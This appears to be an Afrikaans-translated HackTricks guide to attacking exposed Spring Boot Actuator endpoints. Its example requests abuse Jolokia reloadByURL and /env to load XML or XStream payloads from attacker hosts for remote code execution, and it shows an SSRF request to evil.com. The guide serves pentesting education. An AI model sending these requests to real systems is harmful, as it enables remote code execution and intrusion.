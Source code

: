 # Spring Actuators

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
{% endhint %}

## **Spring Auth Bypass**

<figure><img src="../../.gitbook/assets/image (927).png" alt=""><figcaption></figcaption></figure>

**Van** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Exploiting Spring Boot Actuators

**Kyk na die oorspronklike pos van** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Belangrike Punten:**

* Spring Boot Actuators registreer eindpunte soos `/health`, `/trace`, `/beans`, `/env`, ens. In weergawes 1 tot 1.4, is hierdie eindpunte toeganklik sonder verifikasie. Vanaf weergawe 1.5 is slegs `/health` en `/info` nie-sensitief per standaard, maar ontwikkelaars deesdae dikwels hierdie sekuriteit deaktiveer.
* Sekere Actuator eindpunte kan sensitiewe data blootstel of skadelike aksies toelaat:
* `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, en `/heapdump`.
* In Spring Boot 1.x, word actuators geregistreer onder die wortel-URL, terwyl dit in 2.x onder die `/actuator/` basis pad is.

### **Eksploitasiemetodes:**

1. **Afgeleë Kode-uitvoering via '/jolokia'**:
* Die `/jolokia` actuator eindpunt blootstel die Jolokia Biblioteek, wat HTTP-toegang tot MBeans toelaat.
* Die `reloadByURL` aksie kan uitgebuit word om logging konfigurasies van 'n eksterne URL te herlaai, wat kan lei tot blinde XXE of Afgeleë Kode-uitvoering via vervaardigde XML konfigurasies.
* Voorbeeld van 'n eksploit URL: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Konfigurasie-wijziging via '/env'**:
* As Spring Cloud Biblioteke teenwoordig is, laat die `/env` eindpunt die wijziging van omgewings eienskappe toe.
* Eienskappe kan gemanipuleer word om kwesbaarhede uit te buit, soos die XStream deserialisering kwesbaarheid in die Eureka serviceURL.
* Voorbeeld van 'n eksploit POST versoek:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```
3. **Ander Nuttige Instellings**:
* Eienskappe soos `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, en `spring.datasource.tomcat.max-active` kan gemanipuleer word vir verskeie eksploit, soos SQL-inspuiting of die verandering van databasisverbindingstrings.

### **Addisionele Inligting:**

* 'n Omvattende lys van standaard actuators kan [hier](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt) gevind word.
* Die `/env` eindpunt in Spring Boot 2.x gebruik JSON-formaat vir eiendom wijziging, maar die algemene konsep bly dieselfde.

### **Verwante Onderwerpe:**

1. **Env + H2 RCE**:
* Besonderhede oor die uitbuiting van die kombinasie van `/env` eindpunt en H2 databasis kan [hier](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database) gevind word.
2. **SSRF op Spring Boot Deur Onkorrekte Padnaam Interpretasie**:
* Die Spring raamwerk se hantering van matriksparameters (`;`) in HTTP padname kan uitgebuit word vir Server-Side Request Forgery (SSRF).
* Voorbeeld van 'n eksploit versoek:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
</details>
{% endhint %}
